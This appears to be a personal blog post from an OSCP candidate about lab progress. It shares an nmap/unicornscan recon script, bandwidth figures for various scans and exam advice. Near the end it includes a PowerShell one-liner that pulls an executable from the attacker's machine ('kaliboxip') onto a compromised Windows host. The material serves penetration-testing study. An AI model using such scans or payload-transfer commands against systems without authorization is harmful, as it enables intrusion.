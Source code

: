 ```yaml
---
layout: post
title: OSCP Journey Part 9
date: 2018-08-09 09:50
author: rowbot
comments: true
categories: [Progress Bar]
---
```

<!-- wp:block {"ref":364} /-->

<!-- wp:paragraph -->
<p>So seven boxes down currently have low priv on the 8th - have spent approx 4 days getting low priv thanks to a sneak port choice. Took a break yesterday from the box to work on an initial scan script that would pick up something like that in future. I would have a lot more boxes completed if I could use metasploit! But I can't rely on it in the exam so I'm not using it in the lab (other than mutli/handler and using the payloads listed in my previous post).</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">#!/bin/bash<br/>if [[ -z "$1" ]]; then<br/>        echo "USAGE: ./scanner.sh [IP ADDRESS}"<br/>        exit 1<br/>fi<br/>ip=$1<br/><br/>echo ---------HAVE YOU BOUNCED THE BOX??----------------<br/>echo FAST NMAP SCAN OF $ip 100 PORTS<br/>nmap $ip -F -oN quick$ip<br/><br/>echo TCP NMAP SCAN ALL PORTS OF $ip<br/>echo if this takes longer than 10 mins re run scan. Possibly restart box.<br/>nmap $ip -p- -sT -oN tcpall$ip -T4 <br/><br/>echo UNICORN SCAN OF ALL PORTS <br/>unicornscan $ip:a > uniall$ip<br/>echo <br/>echo EXTRACTING PORTS FROM quick$ip and tcpall$ip<br/>cat quick$ip tcpall$ip | grep open | cut -d" " -f1 | sort -u<br/>echo<br/>echo VIEWING uniall$ip<br/>cat uniall$ip
</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>Let me know if you use it/find it useful/suggest ways to improve it.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Even though the Nmap book says -sS scans are quicker, I've found this not to be the case, -sT scans have been quicker for me.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>The script gives you a quick scan of the 100 most common ports and outputs that so you can begin working on a box, ie its found a web-server, while the -sT can is running go view the web page etc. The -sT scan run a -T4 has been the most reliable in testing, -T5 has missed ports and T3 (which is the normal scan when you run nmap) is a bit too slow - though very reliable. The unicorn scan is a quick check of the other 2 scans, as its always good to use a different tool to verify findings.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Now I'm sure there are ways to improve this script as its very basic but so far its been quite solid for me. The only thing I would say is that I couldn't figure out how to grep the output of unicornscan.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Some interesting nmap scan stats about scans I've put together</p>
<!-- /wp:paragraph -->

<!-- wp:table -->
<table class="wp-block-table"><tbody><tr><td><strong>Scan</strong></td><td><strong>Network impact</strong> </td><td><strong>Against /24</strong> </td></tr><tr><td>nmap –F $ip </td><td>0.005436MB </td><td>1.38MB </td></tr><tr><td>nmap --top-ports 20 $ip</td><td>0.014MB </td><td>3.57MB </td></tr><tr><td>nmap –p- $ip</td><td>2.971MB </td><td>757.60MB </td></tr><tr><td>Nmap –A $ip</td><td>2.399MB </td><td>611.74MB </td></tr><tr><td>Nmap –p 139,443 –script=smb-vuln* $ip</td><td>0.12MB </td><td>30.60MB </td></tr></tbody></table>
<!-- /wp:table -->

<!-- wp:paragraph -->
<p>So really think about what scan you want to run on a network because as you can see if scanning a whole range you will definitely affect the network with the load you are putting on.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>My current struggle is Windows priv esc. I've used windows exploit suggester but every exploit I try doesn't work. I'm obviously not doing something correctly, or the Offsec admins have manually patched the vulnerability its suggesting.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Nice script to put files on a windows machine with powershell</p>
<!-- /wp:paragraph -->

<!-- wp:preformatted -->
<pre class="wp-block-preformatted">powershell -c "(new-object System.Net.WebClient).DownloadFile('http://kaliboxip/AFILE.exe','C:\Users\USERYOURLOGGEDINAS\Desktop\AFILE.exe')"</pre>
<!-- /wp:preformatted -->

<!-- wp:paragraph -->
<p>To those reading this who have not started or are thinking about it. Seriously take the time to explore hackthebox and vulnhub and really think about the tools your using and the exploits you've used. Refine your method, get very comfortable with nmap, especially the scripting engine. Learn to get stuck and fed up and want to give up - but keep at it until you pwn that box. Document what you have learned from the box - don't think 'its okay i'll remember that'. You won't - believe me. There as been quite a few times I've forgotten something and popped on to where I've documented it on this site as a reminder.</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Lastly, I've booked the exam date....and accepted my fate of not passing on this attempt. I will eventually pass this exam I have set my mind to that, I don't care how long it will take me. </p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>I hope this blog helps someone who has read other blogs and how they have pwned all the boxes in 2 days (exaggeration) and passed first time.</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":376,"align":"center"} -->
<div class="wp-block-image"><figure class="aligncenter"><img src="http://offsecnewbie.com/wp-content/uploads/2018/08/madrobot.png" alt="" class="wp-image-376"/></figure></div>
<!-- /wp:image -->
